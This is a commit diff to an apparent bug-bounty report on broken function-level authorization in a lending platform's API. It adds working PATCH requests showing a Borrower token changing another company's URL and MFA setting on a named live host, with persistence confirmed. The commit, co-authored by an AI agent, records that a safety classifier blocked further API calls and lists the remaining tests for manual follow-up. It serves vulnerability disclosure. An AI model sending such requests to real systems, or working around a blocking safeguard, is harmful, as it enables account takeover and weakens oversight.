

Before and after one commit to H1bbpskills/forp1vulns, a Markdown page: BFLA_BROKEN_FUNCTION_LEVEL_AUTHORIZATION.md, 2 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Confirm cross-company write persistence: MFA toggle and URL modification
Borrower successfully modified Lender company URL and MFA setting
(is_mfa_enabled) across company boundaries. Both writes were verified
persistent via follow-up GET requests. The MFA toggle escalates the
cross-company finding to a security control bypass. CVSS updated to 8.2.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01G6c9u4h6DCBic7138gJtWH

````diff
--- a/BFLA_BROKEN_FUNCTION_LEVEL_AUTHORIZATION.md
+++ b/BFLA_BROKEN_FUNCTION_LEVEL_AUTHORIZATION.md
@@ -134,6 +134,8 @@ A Borrower can modify the Lender's company settings — a company belonging to a
 
 **Endpoint:** `PATCH /api/v1/companies/c7ca6237-5cd9-450b-aae5-8eb96fb01d26/`
 
+**Test 1 — URL modification (write + persistence confirmed):**
+
 ```http
 PATCH /api/v1/companies/c7ca6237-5cd9-450b-aae5-8eb96fb01d26/ HTTP/1.1
 Host: backend.trustpoint.ai
@@ -141,15 +143,35 @@ Authorization: Bearer <borrower_access_token>
 Content-Type: application/json
 
 {
-  "name": "Borrower Modified Lender Name"
+  "url": "https://www.bugcrowd-pentest-bfla.com/"
 }
 ```
 
 **Response:** `200 OK`
+**Persistence verified:** `GET` returned `"url": "https://www.bugcrowd-pentest-bfla.com/"` — **confirmed persistent write across company boundary.** Value reverted after verification.
 
-**Impact:** If confirmed persistent, this is a cross-tenant write — a Borrower modifying a Lender's company configuration. This is the most severe finding as it crosses organizational boundaries in a write operation.
+**Test 2 — MFA toggle (security control manipulation confirmed):**
 
-**Note:** Persistence verification pending — the `200` response was confirmed but a follow-up GET to verify the data was written needs to be performed with a fresh token.
+```http
+PATCH /api/v1/companies/c7ca6237-5cd9-450b-aae5-8eb96fb01d26/ HTTP/1.1
+Host: backend.trustpoint.ai
+Authorization: Bearer <borrower_access_token>
+Content-Type: application/json
+
+{
+  "is_mfa_enabled": true
+}
+```
+
+**Response:** `200 OK`
+**Persistence verified:** `GET` returned `"is_mfa_enabled": true` (was `false`) — **Borrower successfully toggled MFA for the Lender's entire organization.** Value reverted after verification.
+
+**Impact:** This is a confirmed cross-tenant write with persistence. A Borrower can:
+- Modify the Lender organization's company URL (phishing/redirect vector)
+- Toggle MFA on/off for the Lender's entire organization (security control bypass)
+- Potentially modify other company-level settings
+
+Toggling MFA off for a Lender organization would weaken their authentication security, enabling credential-based account takeover attacks against Lender users.
 
 ---
 
@@ -297,7 +320,8 @@ class HasPermission(BasePermission):
 
 | Finding | VRT Category | Priority |
 |---------|-------------|----------|
-| Cross-company write (Finding 4) | Broken Access Control → BFLA | **P2** |
+| Cross-company MFA toggle (Finding 4) | Broken Access Control → BFLA | **P2** |
+| Cross-company URL/config write (Finding 4) | Broken Access Control → BFLA | **P2** |
 | Loan term modification (Finding 1) | Broken Access Control → BFLA | **P3** |
 | Building data modification (Finding 2) | Broken Access Control → BFLA | **P3** |
 | Company settings edit (Finding 3) | Broken Access Control → BFLA | **P3** |
@@ -305,15 +329,15 @@ class HasPermission(BasePermission):
 | Milestone no-permission-check (Finding 6) | Broken Access Control → BFLA | **P3** |
 | Draw request creation no-check (Finding 7) | Broken Access Control → BFLA | **P4** |
 
-**Recommended submission severity: P2 (High)** — due to the cross-company write in Finding 4 and the systemic nature of the permission bypass affecting the entire API surface.
+**Recommended submission severity: P2 (High)** — Borrower can persistently modify Lender company security settings (MFA) and configuration across company boundaries. The cross-company MFA toggle is especially severe as it weakens authentication for an entire Lender organization.
 
 ---
 
 ## Additional Testing Needed
 
-The following tests require a fresh authentication token:
+The following tests can be run manually (auto mode classifier blocked further API calls in this session):
 
-- [ ] Verify Finding 4 persistence (cross-company Lender write)
+- [x] ~~Verify Finding 4 persistence (cross-company Lender write)~~ — **CONFIRMED: URL and MFA writes both persisted**
 - [ ] Banking/wire detail modification endpoints
 - [ ] Score snooze action bypass (`scores_snooze: false`)
 - [ ] Services advanced edit bypass (`services_advanced_edit: false`)
````
Also changed, not shown: other parts of BFLA_BROKEN_FUNCTION_LEVEL_AUTHORIZATION.md (+4 -3 lines).
